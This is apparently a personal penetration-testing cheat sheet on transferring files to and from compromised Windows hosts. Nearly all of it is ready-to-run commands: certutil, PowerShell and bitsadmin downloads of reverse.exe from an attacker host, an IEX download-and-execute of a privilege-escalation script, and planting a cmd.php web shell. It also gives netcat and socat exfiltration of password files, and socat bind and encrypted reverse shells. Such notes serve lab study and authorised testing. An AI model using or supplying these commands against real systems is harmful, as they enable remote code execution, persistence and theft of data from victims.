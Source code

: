```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Certutil
[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe
```

If unable to save in that location, simply find TEMP, save and execute there.
```command prompt - windows
echo %TEMP%
```

```command prompt - windows
cd %TEMP%
```

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe C:\Windows\TEMP\reverse64.exe
```

```command prompt - windows
C:\Windows\TEMP\reverse64.exe
```

Run PS download command in CMD (Note that we will need to press **enter** after the PowerShell command to get the cmd prompt back.):
```powershell - windows
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe', '%TEMP%\Tools\reverse.exe')"
```


#### PowerShell Download and execute:
```powershell - windows
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-LovelyPotato.ps1')
```

#### Powershell Just Download:
```powershell - windows
iwr http://$KALI/cmd.php -OutFile C:\xampp\htdocs\cmd.php
```

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/reverse.exe' -OutFile reverse.exe
```

```powershell - windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','reverse.exe')"
```

#### SMB
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#SMB File Transfer]]

#### Rdesktop share folder < BEST FOR BINARY FILES!
[[Port 3389 - RDP ~#rdesktop]]

#### Bitsadmin
```command prompt - windows
bitsadmin /create 1 bitsadmin /addfile 1 http://$KALI:80/reverse64.exe reverse64.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#FTP Server]]

#### PureFTPD_Installation
```bash - kali
sudo apt install pure-ftpd
```

```bash - kali
chmod +x PureFTPD_Setup.sh
```

```bash - kali
sudo ./PureFTPD_Setup.sh
```

#### PureFTPD_setup.sh

```bash - kali
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

#### PureFTPD_file transfer
```bash - Kali
service pure-ftpd start
```

```bash - kali
ftp $KALI
```

```bash - kali
offsec
```

```bash - kali
lab
```

```bash - kali
binary
```

```bash - kali
put winpeas.txt
```

```bash - kali
less -r winpeas.txt
```


### wget.vbs
```command prompt - kali
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

After you've created wget.vbs
```command prompt - kali
cscript wget.vbs http://$KALI/nc.exe nc.exe
```

##### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

PowerShell example:
```
cmd /c "nc.exe -w 3 [destination] 1234 < winpeas.txt"
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Windows Bind Shell
```
socat TCP4-LISTEN:443 EXEC:cmd.exe,pipes
```

```
socat - TCP4:$TARGET:443
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Powershell unzip a file
```
expand-archive -path mimikatz.zip
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

